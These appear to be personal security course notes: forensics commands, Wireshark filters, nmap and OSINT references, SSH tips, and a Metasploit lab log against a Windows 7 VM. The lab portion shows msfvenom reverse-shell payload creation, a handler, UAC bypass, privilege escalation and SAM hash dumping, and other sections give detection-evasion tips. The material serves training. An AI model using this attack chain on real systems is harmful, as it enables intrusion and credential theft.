$ python vol.py -f [ImageName] windows.registay.hivelist.HiveList
- Dump the ntuser hive based on a keyword filter to the “dump” folder.
$ python vol.py -f [ImageName] -o "dump" windows.registry.hivelist --filter Doe\ntuser.dat --dump
- Print a specific Windows Registry key.
$ python vol.py -f [ImageName] windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion" --recurse
- Print a specific Windows Registry key, subkeys and values.
$ python vol.py -f [ImageName] windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion" --recurse
glogg - the fast, smart log explorer
glogg is a multi-platform GUI application to browse and search through long or complex log files. It is designed with programmers and system administrators in mind. glogg can be seen as a graphical, interactive combination of grep and less.
"Open big file"
Sleuht kit
The Sleuth Kit® (TSK) is a library and collection of command line tools that allow you to investigate disk images. The core functionality of TSK allows you to analyze volume and file system data. The library can be incorporated into larger digital forensics tools and the command line tools can be directly used to find evidence.
FS Analysis
Natural Referencing
The domain name
- avoid
-which are considered as penalizing - it's better without offensive words and easy to spell
- the size of the domain name must be about 9 words
- register your domain name for 1 year or less is characterized as suspicious
- a valid SSL certificate is better
Page construction
- you need keywords related to your site
- the content of the pages must be relevant and organized
- if the speed of loading the page is long ( Ex: images too heavy) your site will be less well referenced
- it is preferable to have a qualitative code
- feature snippets: this is a portion of text that directly answers a question asked in the search engine. Indeed, it is an extract that leads the user to click on the page to get the full content. Try the site Answer The Public to know what people are looking for on Google (could be interested to look for your keywords).
Backlinks
Links that lead to your website. For Google, if a site has many backlinks, it is a popular and quality site. It also takes into account the age of the domain name that makes the incoming link. Indeed, there is a difference between Wikipedia and a site that is a few months old.
It takes into account the link that redirects to your site.
- the complete site (https://your-own-site.com), the complete site is considered of quality
- a specific page of your site (https://your-own-site.com/a/very/specific/page/somewhere/in/your/site), there is only one interesting content.
User loyalty
- The more time they spend on the site, the better.
- Encourage users to comment on content. Many comments involve a topic of interest, so users will return to the site to see the responses (⚠️ to moderation).
Web Scrapping
Frameworks
- BeautifulSoup
- MechanicalSoup
- Scrapy
- Photon → collection of URLs, files, specific data (emails, social networks)
- Puppeteer
Puppeteer
Allows to drive a chromium instance (works with nodejs).
- automate tasks (forms, data monitoring)
- browse web pages (tests, scrapping)
- make screenshots or export web pages to PDF
- capture a chronological trace of a site to diagnose performance problems
- test chrome extensions
- possibility to display the window to follow the navigation
- dev chrome tools →
Recorderallows to record a navigation and extract the puppeteer code.
▌ ▌▗ ▌ ▌
▌▖▌▄ ▙▀▖▞▀▖▞▀▘▛▀▖▝▀▖▙▀▖▌▗▘
▙▚▌▐ ▌ ▛▀ ▝▀▖▌ ▌▞▀▌▌ ▛▚
▘ ▘▀▘▘ ▝▀▘▀▀ ▘ ▘▝▀▘▘ ▘ ▘
Filter
- DNS
| Protocole | Filter |
|---|---|
| DNS | dns |
| DNS | dns.query.response == 0 |
| DNS | dns.query.response == 1 |
| DNS | dns.flags.rcode == 2 [Server Failure] |
-FTP
| Protocole | Filter | Descriptions |
|---|---|---|
| FTP | "ftp.request.command == ""USER"" " | Ce filtre est utilisé pour filtrer les données en fonction d'une commande FTP spécifique(autres commandes FTP possibles) |
| FTP | "ftp.request.arg == ""anonymous"" " | Affine les arguments passés aux commandes FTP |
| FTP | ftp.response.code | Filtrage pour les codes spécifiques de réponse FTP, peut nous aider à identifier des problèmes spécifiques sur le réseau. Ex : si beaucoup de codes 530 dans le trafic FTP, il y a une forte chance pour que quelqu'un tente de casser les mots de passe. |
| FTP | "ftp |
- HTTP
| Protocole | Filter |
|---|---|
| HTTP | http |
| HTTP | http2 |
| HTTP | http.set_cookie |
| HTTP | http.cookie |
| HTTP | http.request.method |
| HTTP | http.response.code >=300 and http.response.code <400 [Redirections] |
| HTTP | http.response.code >=400 and http.response.code <500 [Client-Side Errors] |
| HTTP | http.response.code >500 [Server-Side Errors] |
| HTTP | http.user_agent |
- Filtres basés sur des signatures et expressions uniques
| Filter | Descriptions |
|---|---|
| "frame contains ""\x50\x4B\x03\x04""" | Signature unique pur les fichiers ZIP |
| "frame matches ""(?i)(password | confidential |
| "http matches ""[a-zA-Z0-9-.]+.(?i)(com)"" " | Filtre sur tous les domaines .com du trafic HTTP |
| "smtp matches ""[a-zA-Z0-9.%+-]+@[a-zA-Z0-9.%+-]""" | Permet de trouver un e-mail dans du trafic SMTP |
- Filtres pour identifier énumération SMTP||
| Filter | Descriptions |
|---|---|
| "smtp.req.command == ""VRFY"" | |
| " smtp.req.command == ""RCPT""" | |
| smtp.response.code == 550 | Indique Action demandée non effectuée: boîte aux lettres indisponible |
| " smtp.req.command == ""RSET""" |
-Filtres pour identifier les attaques SMTP||
| Filter | Descriptions |
|---|---|
| smtp.response.code == 554 | La transaction a échoué |
| smtp.response.code == 553 | Destinataire non valide |
| "smtp matches ""[a-zA-Z0-9._%+-]+@nmap.scanme.org"" " | Filtre la signture Nmap tout en testant l'open relay |
- Filtres permettant de trouver une erreur/problème dans les communications mail||
| Filter | Descriptions |
|---|---|
| smtp.response.code >= 400 | |
| " pop.response.indicator == ""-ERR""" |
- Filtres permettant de montrer les identifiants de connexion e-mail||
| Filter | Descriptions |
|---|---|
| " pop.request.command == ""USER"" | |
| " imap.request contains ""login""" | |
| " smtp.req.command == ""AUTH""" |
- Filtres importants||
| Filter | Descriptions |
|---|---|
| http.host | |
| http.request | |
| bootp.option.hostname | Hôte via DHCP |
| dns.qry.name | Hôte via DNS |
| irc.request | Commande pour joindre IRC |
| "irc && tcp matches ""(?i) join"" " | Commande de requête IRC |
- Autres filtres||
| Filter | Descriptions |
|---|---|
| wlan.wep.iv | Filtre sur le trafic chiffré WEP |
| llc | Pour se débarrasser du trafic 802.11 |
| imf | Filtre les paquets Internet Message Format |
| http.host | |
| http.request.uri | |
| dns.count.answers>5 | |
| http.response.code > 399 | Erreurs HTTP |
| dns.flags.rcode > 0 | Erreurs DNS |
| ftp.response.code > 399 | Erreur FTP |
| wlan.fr.retry == 1 | Tentatives WLAN |
| ip.host == 10.1.0.20 | Filtre sur une IP en particulier |
- Filtres sur TCP||
| Filter | Descriptions |
|---|---|
| tcp.analysis.lost_segment | Paquet précédent non capturé |
| tcp.analysis.fast_retransmission | Retransmissions rapides TCP |
| tcp.analysis.duplicate_ack | ACKs dupliqués |
| tcp.analysis.retransmission | Retransmissions TCP |
| tcp.analysis.out_of_order | Segments out-of-orders |
| tcp.analysis.zero_window | Fenêtre à 0 |
| tcp.window_size_value == 0 | |
| tcp.time_delta | Delta time TCP |
| tcp.flags.syn==1 && tcp.flags.ack==0 | Attaque SYN flood |
NMAP
- Ping scans the network, listing machines that respond to ping
nmap -sP <IP>[/<MASK>]
nmap -sP xx.xx.xx.<RANGE1>-xx.xx.xx.<RANGE1>
nmap -sP xx.xx.xx.*
- Scan UDP (BIEN LIMITER LES PORTS)
nmap -sU
- Utilisation de ligne de commande
nmap -iL file.txt
file.txt
1.1.1.1/16
1.1.1.1-1.1.1.100
1.1.1.*
Command plus discret
- Port
WellKnown(1050 ports) => port officiel. - Reponses possible:
Openle port est accessible et une application est à l'ecoutefilterednmap est pas capable de savoir si le port est ouvert. Paquet filtre, machine est derriere un pare-feuunfilteredPort est accessibles mais nmap ne sait pas si il est ferme ou ouvert
TCP SYN scanINTERDIT à cause du SYN/ACK/RST le RST diminu le temps de requete ce qui est flagrant.
nmap -Ss xx.xx.xx.xx
Recommandation
-
TCP
-n/-Rpas de DNS-P0, -Pn, -PDpas deKeeplive.-sVscan versions (Banner Grabbling - bannière de service)-p 80,22,33Scan un ou plusierus ports10 -> 1044Scan un range de pors-p-Scan les 65000 ports (pas que lesWellKnown -
UDP
-sUAll ports en UDP (depricated)-sU -p 0->100certains ports en UDP (best practice) -
Output
-OOSF-vvvVerbose-o [N|G|X] file_nameSortie au formatNormal,Greppable ouXML-o A file_nameSortie pour toues les formats.
-A Scan Agressif [DEPRICATED]
-sC Scan sCript [DEPRICATED] script NSE
-n Pas de resolution DNS. Pas de demande d'enregistrement
-T4 Temporisation => de 0(Paranoid) à 5 (Speed)
-F Fast Scan
--top-ports Les ports les plus conventionnels.
note keeplive est accompagné de l'adresse IP du demandeur => DEPRICATED.
note Comment être discret:
-
Usurpe la MAC address
-
Modifier l'IP
-
Temporiser les rêquetes
-
Splitter les packets
-
Example: recherche de l'OS
nmap -sV -n 192.168.94.1 -p- -oX pcl.xml
- Utilisation du port d'allocation dynamic (0)
nmap 192.168.94.1 -p 0
OSINT
Tools
| Tools | Tags | Description |
|---|---|---|
| Sherlock | Username | Scan les reseaux sociaux. |
| Holehe | Email check. | |
| Shodan | Ip/Domain | Traque les objets connectes et leurs valeurs par defaut. |
| Whois | Ip/Domain | Carto. IP et Domaine. |
| the Harverter | Ip/Domain Unsername | The harvester is another OSINT tool for reconnaissance. |
| PimEyes | Photo | Outil de recherche pour la reconnaissance faciale. |
| Betaface | Photo | Outil de recherche pour la reconnaissance faciale. |
| GoogleYandex [UK]Bings | Username Email Ip/Domain Photo Pseudo | Most populaire search gear. |
| WhatsMyName | Username Pseudo | Enumerate username. |
| Snoop [UK] | Username Pseudo | Check username and pseudo. |
| Spiderfoot [UK] | Username Pseudo | Check username and pseudo. |
| GHunt | Extraire les infos. d'un compte Google. | |
| Epieos | Extraire les infos. d'un compte Google. | |
| Epieos | Extraire les infos. d'un compte Google. |
Reconnaissance
Site de recherche
People Search
- https://generated.photos
- https://fr.fakenamegenerator.com
- https://fr.fakepersongenerator.com
- https://this-person-does-not-exist.com/fr
Google Dorks
Pour les time:, elle doit etre la valeur dans le calendrier Julien OU contenir explicitement la chaine de caractere.
Tous les operandes fonctionnent: &, | <, >
index of ... => "index of "
GHDB (Google Hacking DataBase) Google Social Search
CSE exploité par Google (Google Custom Search Engine (CSE))
CSE Utopia => list de CSE pre-generé
Generateur de DORKS => https://www.google.com/advanced_search
Recherche d'information par images
Training
Penetration testing - Pentest
Introduction to penetration testing
Definitions:
- Risk assessment: Analysis of services to identify vulnerabilities in systems, applications or processes.
- Penetration testing: Check if the vulnerabilities found are really present or not (false positives).
Port usuels
| Port | Service |
|---|---|
| 21 | ftp |
| 22 | ssh |
| 23 | telnet |
| 25 | smtp |
| 53 | domain |
| 80 | http |
| 111 | rpcbind |
| 139 | netbios-ssn |
| 445 | microsoft-ds |
| 512 | exec |
| 513 | login |
| 514 | shell |
| 1099 | rmiregistry |
| 1524 | ingreslock |
| 2049 | nfs |
| 2121 | ccproxy-ftp |
| 3306 | mysql |
| 5432 | postgresql |
| 5900 | vnc |
| 6000 | X11 |
| 6667 | irc |
| 8009 | ajp13 |
Reference
10 Hacking Tools in Kali Linux You must know!
- Nmap A powerful tool used for network scanning and security auditing. It can discover hosts, services, open ports and so much more!
- Wireshark This is a network protocol analyzer. It lets you see what's happening on your network at a microscopic level.
- Metasploit: A penetration testing framework that makes hacking simple. It's used for developing and executing exploit code against a remote target machine.
- Aircrack-ng: A complete suite of tools to assess WiFi network security. It focuses on key areas of WiFi security like monitoring, attacking, testing, and cracking.
- John the Ripper: A fast password cracker. It's an essential tool in a hacker's arsenal, used for detecting weak passwords.
- Burp Suite: A tool for testing web application security. It has a range of features, from intercepting proxy to automated scanning.
- Hydra: A powerful brute force tool. It can perform rapid dictionary attacks against more than 50 protocols, including telnet, ftp, http, https, smb, and more.
- SQLmap: An open-source tool that automates the process of detecting and exploiting SQL injection flaws.
- OWASP ZAP: A free security tool for finding vulnerabilities in web applications. It's ideal for developers and functional testers as well as security experts.
- Nessus: A highly functional vulnerability scanner. It's capable of identifying vulnerabilities, configuration issues, and missing patches in a variety of systems.
- Pentest Tools and Other: Site that refers tools and all about pentest
Documentation ref. pentest
- OWASP Mobile Top 10
- MASVS
- MASTG
- Introduction to the OWASP Mobile Application Security Project
- FluidAttacks
- oversecured/vulnerabilities
- Secu IOS
- Secu Android
- Architecture Android
- Smali code
- Liste des permissions Android
- Chercher des rapports de bug bounty
x64 Linux Binary Exploitation
Tutorial
x64 Linux Binary Exploitation series - @0xor0ne
Useful commands
HTTP ServerOne line
python -m SimpleHTTPServer 8000 # Python 2.x
python -m http.server 8000 # Python 3.x
updog # pretty interface
Steganography
Find images information
identify -verbose
pngcheck [image]
zsteg [image] # detects stegano data hidden in PNG & BMP
steghide extract -sf [filename]
stegseek [file] [wordlist] # bruteforce steghide passphrase
Web
Attaque SQL
sqlmap -u "http://172.16.128.39:8080/student_grade/index.php?student_id=" --tables -D Dysto_School -T student
Website request command line
curl -v [url]
curl -v -X POST [url]
wget [url]
Forensic Investigation
volatility
testdisk
Hidden files extraction
binwalk -e
Windows
Find the Wi-Fi password using CMD
netsh wlan show profile <ESSID> key=clear
SSH (Secure SHell)
Basic connection
ssh user@ip
ssh user@192.168.0.46
File transfert
scp [user@ip:]/full/file/path/src [user@ip:]/full/folder/path/dst
# Upload (From local -> remote)
$ scp /home/mickael/data/Ficher2 root@192.168.10.131:/var/www/
# Download (From remote -> to local)
$ scp root@192.168.10.131:/var/www/Fichier2 /home/mickael/data/
Recurcive copies
scp -r [user@ip:]/full/root?folder/path/src [user@ip:]/full/folder/path/dst
scp -r /home/mickael/data/ root@192.168.10.131:/var/www/
X11 Forwarding
-
On server
-
In file
/etc/ssh/sshd_config
X11Forwarding yes
X11DisplayOffset 10
NOTE Do not forget to reboot
service sshd restart
in progress
Tunneling
We are going to match a local port of our machine to a remote port of the machine to which we are connecting, all through our SSH connection:
$ ssh -f user@monserveur -L 2500:localhost:80 -N
-fto put command in foreground-Ldefine pathfinder `local_port:target_tunnel_output:target_port_output_tunnel"-NDo not execute e re;ote command
For -L, here, the local port 2500 will represent the port 80 of ther remote.
Multiple SSH tunnels can be established at the same time, as long as they don't forward (match) the same ports. For example, here I have an active tunnel on my local port 2500, I can establish a second one on port 2501, to establish a connection with my local STMP server:
$ ssh -f mickael@1.2.3.4 -L 2501:192.168.1.10:25 -N
Proxy SSH
$ ssh -D 12345 mickael@monserveur
Port knocking
Use tools knockd
$ apt install knockd
Update config. file
- /etc/knockd.conf
[ouvrir_SSH]
sequence = 2005,1905,3005
seq_timeout = 20 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
[fermer_SSH]
sequence = 3005,1905,2005
seq_timeout = 20
command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn
IMPORTANT
Your server must have closed all unused ports beforehand. More simply with the command
iptables -P INPUT DROP
which will have the effect of closing all the input ports. Be careful with this command all the same if you don't want to cut off your own access.
Ref.
Metasploit
- Deploit, periste et nettoie les traces.
- Developper en Ruby
- Manger le livre => Metasploit by HD Moore.
- Outil de pentest
- Open-Source en
Ruby
Anecdote:
En 2003 envoit des requetes AxA * 20000 sur le reseau sous XP.
Sociéte de conception de Nexpose (Rapid7) qui veut racheter le framework.
Architecture
Librairies
MFS Core; MSF Base et Rex
Interfaces
-
MsfGui (Win7) - version graphique de Msf [DEPRICATED]
-
MsfConsole - Interface de commande. Controleur de charge
-
Msfcli=> MsfVenom - permet de generer et packer les charges. Createur des charges -
MsfWeb - DEPRICATED
-
Metasploit Pro -
Hack as a cliqui permet de gerer les attaques -
Armitage - Existe depuis
BackTrack 3, supprimé dans Kali mais toujours opérationnel. Controle graphic des charge/control -
Colbalt Strike - Version elegante de
Armitage -
Kage - Other Armitage ou RAT (Remote Administration Threat)
Kage Armiteg et Cobalt Strik exploitMsfconsole.
MsfConsole
msfconsol
La console est connecter à une DB posgres. On doit faire un update puis lancer les DB pour avoir une sync des vuln.
Auxiliary
Modules autre que ceux de l'attaque. Post exploitation.
Ex: scannerUDP_sweep
- Enumeration
- Sniffing
- Fuzzing => stress d'application avec des parametres pour essayer de genere un autre comportement. Un crash ne signifit pas la prise ou l'elevation de privilège.
Example d'application : Winaf
post
Permet la post-exploitation: persistances, pivoting, utilise les auxiliary module....
Exploit
Codes qui va exploiter des vuln. Ils sont packagés dés qu'ils sont connus. Reproduit une vuln.
ATTENTION Un exploit n'est pas une prise de controle. On peut utiliser un exploit pour lancer un Ransomware, un DDOS....
Un exploit est un bout de code qui exploite une faille => automatise la reproduction d'une vuln.
payload
Avec un exploit, ne permet pas le controle. C'est la charge mailicieuse embarque dans l'exploit pour definit comment communiquer avec l'exploitant, le tunnel.
-
Le payload peut avoir 2 directions:
- Hacker vers la cible => BIND payload
- Cible vers hacker => REVERSE payload (Protocole HTTP; HTTPS, DNS, Mail...)
-
Les parametres:
1.[Cible/Host]
- remotre address => RHOST (ex: 192.168.2.1)
- remote port => RPORT (ex: Port 21)
2.[Hacker]
- Local address => LHOST
- Local port => LPORT
-
Execution de
shell
Execution du shell sur le victime => Meterpreter
Le canal de communication avec le Meterprete fait de l'obfuscation en assembleur.
WARNING le Meterpreter est detecté par tous AV/IDS/IPS.
Encoder
L'obfuscation permet de passer les AV. Cela, MSF fait de l'encodage (chiffrement, XOR....)
- Quelques examples
-
Shikata Ga NaiBest chiffrement -
NOPPas d'opération en assembleur (0x90). Cela permet de créer du vide et de stabiliser une charge. Connu sous le nom de traineau de vide.
Evasion
Nouveau module permettant de faire des exploit d'evaion???
TP 1 - Vuln.
Init
$ sudo -s
$ service postgresql start
$ service postgresql status
● postgresql.service - PostgreSQL RDBMS
Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
Active: active (exited) since Thu 2022-06-23 11:16:39 CEST; 19s ago
Process: 741661 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
Main PID: 741661 (code=exited, status=0/SUCCESS)
CPU: 4ms
juin 23 11:16:39 Ptes systemd[1]: Starting PostgreSQL RDBMS...
juin 23 11:16:39 Ptes systemd[1]: Finished PostgreSQL RDBMS.
$ msfdb init
$ msfconsole
msf6 >
- Command
show`
show encoders
show evasion
- Commande disponible
?
search
Permet de chercher des exploits, payloads par rapport aux vuln ou autre.
$ search vsftpd
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent No VSFTPD v2.3.4 Backdoor Command Execution
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
La doc annonce:
info exploit/unix/ftp/vsftpd_234_backdoorpour informationuse exploit/unix/ftp/vsftpd_234_backdoorpour activer l'utilisation
OSVDB Open-Source VulN DataBase qui est une base de données Open-Source de ExploitDB, pas toujours à jours.
Exploitation
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options
Module options (exploit/unix/ftp/vsftpd_234_backdoor):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
Using-Metasploit
RPORT 21 yes The target port (TCP)
Payload options (cmd/unix/interact):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.2.1
RHOSTS => 192.168.2.1
options permet d'avoir les info.
Les payload sont dependents de l'Exploit.
set payload cmd/unix/interact
C'est le seul proposé pour cet exploit.
- Execute l'exploit en interfactive => une
session
exploit
- Execute en tache de fond
exploit -j
- list des sessions en cours
sessions
- list des jobs en cours
jobs
- Switch session
sessions sessionID
- Quitter Session
abort sessions
MSFVenom
- Create charge
mfsvenom -p windows/meterpreter/reverse_tcp -f exe -o mous.exe
- Lancement du listner
msf6 > use multi/handler msf6 expoit(multi/handler) > set LHOST 192.168.2.5 msf6 expoit(multi/handler) > set LPORT 9090
Lorsque msf est contacté, prendre la session:
session ID ?
WARNING Evtx Event LOG de clean de log => 104
Il faut toujours detacher le meterpreter de la payload:
ps <= visualisation des Process "Client-PC/Client"
Deplacement en memoire
migrate PROCESSID_SAME_RIGHT
NOTE voldiff.py permet de retrouver par diff le process, pas nativement avec volatilit.
- Mettre en pause la session pour revenir sur Metasploit
bg
- Monter les privilèges sous Windows (UAC)
search uac use exploit/windows/local/bypassuac options
WARNING 4444 est un port specific à Metasploit
- Elevation de privilège (UAC)
getprivs
- Get system privilege
getsystem
- Recupere la SAM
hashdump
- Crack password
john sam.txt --format=nt --show
- Comment charger des commandes exploitatble en Meterpreter:
load MODULE
ex de Mimikatz:
load kiwi
Note TP
┌──(root💀Ptes)-[/home/stage]
└─# msfconsole 1 ⨯
.:okOOOkdc' 'cdkOOOko:.
.xOOOOOOOOOOOOc cOOOOOOOOOOOOx.
:OOOOOOOOOOOOOOOk, ,kOOOOOOOOOOOOOOO:
'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
.OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
.dOOo'WM.OOOOocccxOOOO.MX'xOOd.
,kOl'M.OOOOOOOOOOOOO.M'dOk,
:kk;.OOOOOOOOOOOOO.;Ok:
;kOOOOOOOOOOOOOOOk:
,xOOOOOOOOOOOx,
.lOOOOOOOl.
,dOd,
.
=[ metasploit v6.1.14-dev ]
+ -- --=[ 2180 exploits - 1155 auxiliary - 399 post ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops ]
+ -- --=[ 9 evasion ]
Metasploit tip: You can upgrade a shell to a Meterpreter
session on many platforms using sessions -u
<session_id>
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (generic/shell_reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.2.5 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp_allports
payload => windows/meterpreter/reverse_tcp_allports
msf6 exploit(multi/handler) > options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp_allports):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.2.5 yes The listen address (an interface may be specified)
LPORT 4444 yes The starting port number to connect back on
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf6 exploit(multi/handler) > exploit -j
msf6 exploit(multi/handler) > sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x86/windows Client-PC\Client @ CLIENT-PC 192.168.2.5:4444 -> 192.168.2.10:49197 (192.16
8.2.10)
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System
280 4 smss.exe
316 832 vmtoolsd.exe
424 832 svchost.exe
672 636 csrss.exe
724 636 wininit.exe
736 716 csrss.exe
792 716 winlogon.exe
808 3144 mmc.exe x86 1
832 724 services.exe
844 724 lsass.exe
852 724 lsm.exe
952 832 svchost.exe
1020 832 vmacthlp.exe
1064 832 svchost.exe
1076 3112 iexplore.exe x86 1 Client-PC\Client C:\Program Files\Internet Explorer\iexplore.exe
1120 832 svchost.exe
1228 832 svchost.exe
1276 832 svchost.exe
1412 832 svchost.exe
1520 832 svchost.exe
1620 832 spoolsv.exe
1648 832 svchost.exe
1764 832 avgwdsvcx.exe
2028 832 VGAuthService.exe
2168 792 taskmgr.exe x86 1 Client-PC\Client C:\Windows\system32\taskmgr.exe
2352 952 WmiPrvSE.exe
2476 832 taskhost.exe x86 1 Client-PC\Client C:\Windows\system32\taskhost.exe
2484 832 dllhost.exe
2692 832 sppsvc.exe
2760 1076 iexplore.exe x86 1 Client-PC\Client C:\Program Files\Internet Explorer\iexplore.exe
2868 832 msdtc.exe
3088 1228 dwm.exe x86 1 Client-PC\Client C:\Windows\system32\Dwm.exe
3112 3080 explorer.exe x86 1 Client-PC\Client C:\Windows\Explorer.EXE
3144 952 dllhost.exe x86 1
3228 3112 reverse_all.exe x86 1 Client-PC\Client C:\Users\Client\Desktop\reverse_all.exe
3232 3112 avgui.exe x86 1 Client-PC\Client C:\Program Files\AVG\Av\avgui.exe
3296 3112 jusched.exe x86 1 Client-PC\Client C:\Program Files\Java\jre1.6.0\bin\jusched.exe
3308 3112 vmtoolsd.exe x86 1 Client-PC\Client C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
3500 3232 ctfmon.exe x86 1 Client-PC\Client C:\Windows\system32\ctfmon.exe
3848 832 SearchIndexer.exe
meterpreter > migrate 3232
[*] Migrating from 3228 to 3232...
[*] Migration completed successfully.
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > options
Module options (exploit/windows/local/bypassuac):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
TECHNIQUE EXE yes Technique to use if UAC is turned off (Accepted: PSH, EXE)
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.163.140 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf6 exploit(windows/local/bypassuac) > set LHOST 192.168.2.5
LHOST => 192.168.2.5
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp_allports
payload => windows/meterpreter/reverse_tcp_allports
msf6 exploit(windows/local/bypassuac) > options
Module options (exploit/windows/local/bypassuac):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
TECHNIQUE EXE yes Technique to use if UAC is turned off (Accepted: PSH, EXE)
Payload options (windows/meterpreter/reverse_tcp_allports):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.2.5 yes The listen address (an interface may be specified)
LPORT 4444 yes The starting port number to connect back on
Exploit target:
Id Name
-- ----
0 Windows x86
msf6 exploit(windows/local/bypassuac) > options
Module options (exploit/windows/local/bypassuac):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
TECHNIQUE EXE yes Technique to use if UAC is turned off (Accepted: PSH, EXE)
Payload options (windows/meterpreter/reverse_tcp_allports):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.2.5 yes The listen address (an interface may be specified)
LPORT 4444 yes The starting port number to connect back on
Exploit target:
Id Name
-- ----
0 Windows x86
msf6 exploit(windows/local/bypassuac) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac) > run
[!] SESSION may not be compatible with this module:
[!] * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Started reverse TCP handler on 192.168.2.5:4444
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (175174 bytes) to 192.168.2.10
[*] Meterpreter session 2 opened (192.168.2.5:4444 -> 192.168.2.10:49198 ) at 2022-06-23 16:00:14 +0200
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(windows/local/bypassuac) > sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x86/windows Client-PC\Client @ CLIENT-PC 192.168.2.5:4444 -> 192.168.2.10:49197 (192.16
8.2.10)
2 meterpreter x86/windows Client-PC\Client @ CLIENT-PC 192.168.2.5:4444 -> 192.168.2.10:49198 (192.16
8.2.10)
msf6 exploit(windows/local/bypassuac) > sessions 2
[*] Starting interaction with 2...
meterpreter > getprivs
Enabled Process Privileges
==========================
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > hashdump
Admin:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Client:1000:aad3b435b51404eeaad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf:::
Invit�:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Rentrer dans Windows7 sans executer le piège
Password Cracking
Crack ZIP Files Password Using John the Ripper
apt install zip
apt install unzip
apt install john
zip2john crack2.zip > zip.hashes
